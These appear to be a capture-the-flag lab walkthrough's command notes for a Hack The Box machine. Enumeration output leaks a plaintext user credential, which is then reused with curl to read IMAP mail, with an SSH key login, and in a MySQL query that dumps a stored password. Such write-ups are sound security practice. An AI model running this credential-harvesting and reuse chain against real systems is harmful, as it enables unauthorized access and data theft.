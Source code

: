 ```bash
10.129.225.141:67ms:.0:BOOT_IMAGE=/vmlinuz-5.4.0-90-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro ipv6.disable=1 maybe-ubiquity

10.129.225.141:66ms:.0:0
10.129.225.141:65ms:.0:244
10.129.225.141:64ms:.0:0
10.129.225.141:67ms:.0:1
10.129.225.141:66ms:.80:/opt/tom-recovery.sh
10.129.225.141:61ms:.80:tom NMds732Js2761
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!
10.129.225.141: Message cannot be decoded!
rm

# Check toms imaps
curl -k 'imaps://10.129.225.141' --user tom:NMds732Js2761

# Look around:
curl -k 'imaps://10.129.225.141/INBOX;UID=1' --user tom:NMds732Js2761

# get key
chmod 0700 id_rsa.priv
ssh -i id_rsa.priv tom@<IP>

mysql -u tom -p 
SHOW databasees
use users
select * from user where username='htb';
mysql> select * from users where username='htb';
+------+----------+------------------------------+
| id   | username | password                     |
+------+----------+------------------------------+
|  150 | HTB      | cr3n4o7rzse7rzhnckhssncif7ds |
+------+----------+------------------------------+

```
